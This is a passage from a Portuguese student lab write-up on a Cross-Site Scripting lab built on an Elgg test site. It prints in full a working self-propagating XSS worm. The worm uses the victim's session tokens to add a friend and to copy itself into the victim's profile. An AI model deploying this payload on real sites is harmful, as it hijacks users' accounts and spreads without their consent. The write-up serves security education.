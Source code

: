 ### Pergunta 3 - O que acontece se removermos a linha 1

Caso a linha 1 seja removida, Samy irá se atacar como podemos ver:

![Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print11.png](Laborato%CC%81rio%201%20-%20Cross-Site%20Scripting%20Attack%20aa1dfbf4fb3b4029879d2d6a817fd0c5/print11.png)

### Tarefa 6 - Escrever um worm XSS auto-propagável

Para esta tarefa o código da tarefa 5 foi utilizado como base, a auto propagação se da pela busca no código pela tag HTML em que o id seja worm, o conteúdo desta tag então é utilizado para editar o perfil da vítima assim sempre que uma um usuário acessar um perfil infectado ele também se infectará. O código abaixo foi utilizado para realizar a propagação do worm e também adicionar Samy na lista de amigos da vitima, para isto colamos no campo About me no perfil do usuário Samy.

```jsx
<script id="worm" type="text/javascript">
window.onload = function(){
  var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; 
  var jsCode = document.getElementById("worm").innerHTML;
  var tailTag = "</" + "script>";                                 

  var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); 
  alert(jsCode)
                        
  var userName=elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="__elgg_token="+elgg.security.token.__elgg_token;

  //Requisição GET para adicionar Samy como amigo
  var sendurl="http://www.xsslabelgg.com/action/friends/add?friend=47&" + token + ts;
  var Ajax=null;
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();

  //Requisição POST para adicionar worm à descrição das vítimas
  var sendurl="http://www.xsslabelgg.com/action/profile/edit";
  var desc = "&description=Infectado" + wormCode + "&accesslevel[description]=2";
  var content = token + ts + desc + guid;
  var samyGuid=47; 
  if(elgg.session.user.guid!=samyGuid)
	{
	//Create and send Ajax request to modify profile
	var Ajax=null;
	Ajax=new XMLHttpRequest();
	Ajax.open("POST",sendurl,true);
	Ajax.setRequestHeader("Host","www.xsslabelgg.com");
	Ajax.setRequestHeader("Content-Type",
	"application/x-www-form-urlencoded");
	Ajax.send(content);
  }
 
}
</script>
```
